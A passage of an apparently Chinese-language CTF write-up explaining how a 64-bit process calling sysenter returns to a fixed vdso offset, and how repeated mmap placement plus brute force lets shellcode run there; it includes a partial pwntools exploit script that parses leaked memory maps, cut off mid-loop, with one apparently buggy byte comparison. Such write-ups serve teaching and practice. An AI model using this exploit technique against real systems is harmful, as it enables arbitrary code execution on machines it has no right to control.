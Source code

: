 `landing_pad` 為 vdso + `sym_int80_landing_pad`，代表執行 `SYSEXIT` 後，eip 會是這個 address，而 `sym_int80_landing_pad` 會是 0x939，而這是一個固定的位置，代表每次執行 `SYSENTER`，並透過 `SYSEXIT` 返回後，都會到那個 address (vdso + 0x939)，而 vdso + 0x939 為:

```asm
...
sysenter
int 0x80
pop ebp ; <---- here
pop edx
pop ecx
ret
...
```



---



在 64-bit mode call `sysenter`，返回位置會是 vdso 的低 32 bit + offset (`sym_int80_landing_pad`)，在 ubuntu 20.04 下，offset 是 0xB49，因此 exploit 過程如下:

- 取得 vdso base `0x7FF_XXYYY000`，得知 `0xXXYYY000`+ 0xb49 為 return 的位置
  - `XX` 部分必須要是 `00`，因此需要一點 brute force
- 而 `mmap()` 的範圍在 `0x10000` ~ `0x3e7000`，由於可以重複 `mmap()`，因此可以讓 `mmap_addr == 0xYYY000`，這樣 `mmap_addr + 0xb49` 就是可控的，並且 `sysenter` 回來後會直接執行 `mmap_addr + 0xb49`
- 之後在 offset 0x200 寫入 `sysenter`，在 offset 0xb49 寫入 shellcode 即可

**執行完 sysenter 後會 downgraded 成 32 bit**。

由於電腦運行在 ubuntu 20.04，並且不能運行 (錯誤訊息為 `[1]    1585666 illegal hardware instruction (core dumped)  ./test`，代表無效的 instruction，原因可能是編譯 kernel 時沒有加 `CONFIG_IA32_EMULATION`)，因此 exploit 為參考:

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'i386'
context.terminal = ['tmux', 'splitw', '-h']

while True:
    r = process('./M', env={"LD_PRELOAD": "./libc-2.27.so"})

    datas = r.recvuntil('Welcome to a no-eeeeeeeeeeeemoji').split(b'\n')
    code = 0
    libc = 0
    stack = 0
    vvar = 0
    vdso = 0
    vsyscall = 0

    for data in datas:
        if not data:
            continue

        if bytes([data[0]]) == b'5' and code == 0: # code
            code = int(data.split(b'-')[0], 16)    
        if bytes([data[0]]) == b'7f' and libc == 0: # libc
            libc = int(data.split(b'-')[0], 16)
        elif data[:3] == b'7ff' and stack == 0: # stack
            stack = int(data.split(b'-')[0], 16)
        elif data[:3] == b'7ff' and vvar == 0: # vvar
            vvar = int(data.split(b'-')[0], 16)
        elif data[:3] == b'7ff' and vdso == 0: # vdso
            vdso = int(data.split(b'-')[0], 16)
        elif data[:4] == b'ffff' and vsyscall == 0: # vsyscall
```